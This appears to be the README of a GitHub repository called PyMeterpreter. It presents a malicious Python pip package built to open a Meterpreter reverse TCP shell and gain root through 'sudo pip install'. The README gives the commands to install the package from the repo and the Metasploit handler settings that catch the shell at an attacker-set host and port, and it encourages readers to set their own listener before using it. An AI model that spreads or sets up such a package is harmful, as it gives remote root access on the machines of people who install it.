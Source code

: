 # PyMeterpreter
Malicious Python PIP Module to launch Meterpreter Reverse TCP

Created to escalate privileges to root using 'sudo pip install *'.

You'll probably want to clone the repo, change your LHOST/LPORT before using ;-)

## Usage

There are multiple ways to install/run the code:

### Direct from Git repo:
Execute: `pip install git+https://github.com/ben0/PyMeterpreter`

### Clone the Git repo:
`git clone https://github.com/ben0/PyMeterpreter`\
`pip install ./PyMeterpreter --upgrade`

### Fire up MSF
`use exploit/multi/handler`\
`set payload python/meterpreter/reverse_tcp`\
`set LHOST 172.16.10.10`\
`set LPORT 443`\
`exploit`
